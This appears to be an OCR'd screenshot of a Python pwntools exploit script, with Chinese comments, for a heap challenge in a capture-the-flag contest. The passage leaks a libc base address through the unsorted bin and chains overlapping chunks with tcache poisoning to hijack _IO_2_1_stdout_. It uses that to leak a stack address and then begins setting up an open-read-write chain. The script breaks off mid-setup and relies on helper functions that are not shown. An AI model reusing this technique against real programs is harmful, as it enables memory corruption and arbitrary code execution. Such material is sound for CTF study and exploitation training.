    ```python
   def free(index):
       p.sendlineafter(b':',b'2')
       p.sendlineafter('Please input idx: ', str(index))
   
   def backdoor(index):
       p.sendlineafter(b":",b"666")
       p.sendlineafter(b':',str(index).encode())
   
   
   # 溢出进unsortedbin
   for i in range(9):
       add(0x80,b'a')
   for i in range(7):
       free(i)
   add(0x38,b'a')  #0
   
   backdoor(8)
   show(8)
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = 0x1EcB80
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-0x1ecbe0
   success("libc_addr==>"+hex(libc_base))
    
   #计算__free_hook和system地址
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   environ_addr = libc_base + libc.sym["environ"]
   success("IO_2_1_stdout_addr==>"+hex(IO_2_1_stdout_addr))
   success("environ_addr==>"+hex(environ_addr))
   
   # 实现overlaping，将一个堆块一次放入tcache，一次放入unsortedbin
   # 在通过overlaping申请unsortedbin中的chunk，覆盖到tcache中的next指针
   free(7)         #与目标堆块合并,后续申请更大的堆块时覆盖到目标堆块的next指针
   
   add(0x80,b"a")  #1 tcache腾出一个位置.后续放目标堆块
   free(8)         #目标堆块进入unsortedbin,目标堆块要选择高地址的chunk
   
   add(0x68,b"a")  #2 在unsortedbin中申请chunk,实现overlaping
   payload = p64(0)*(3)+p64(0x91)+p64(IO_2_1_stdout_addr)
   add(0x68,payload)   #3 一次申请unsortedbin覆盖不到next指针,所以分两次申请
   add(0x80,b"a")  #4 目标bin
   #修改IO_2_1_stdout_addr结构体
   payload = p64(0xfbad1800) + p64(0)*3 + p64(environ_addr) + p64(environ_addr+8)*2
   add(0x80,payload)  #5 任意地址分配的chunk IO_2_1_stdout_addr
   stack_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))-0x128
   success("stack_addr==>"+hex(stack_addr))
   
   #第二次使用overlaping 
   free(4)
   free(3)
   
   payload = p64(0)*(3)+p64(0x91)+p64(stack_addr)
   add(0x68,payload)   #3 一次申请unsortedbin覆盖不到next指针,所以分两次申请
   add(0x80,b'a')
   
   # 构造ORW
   read_addr = libc_base + libc.sym['read']
   open_addr = libc_base + libc.sym['open']
   write_addr = libc_base + libc.sym['write']
   puts_addr = libc_base + libc.sym['puts']
   #pop_rdi_ret = libc_base + libc.search(asm('pop rdi;ret;')).__next__()
   ```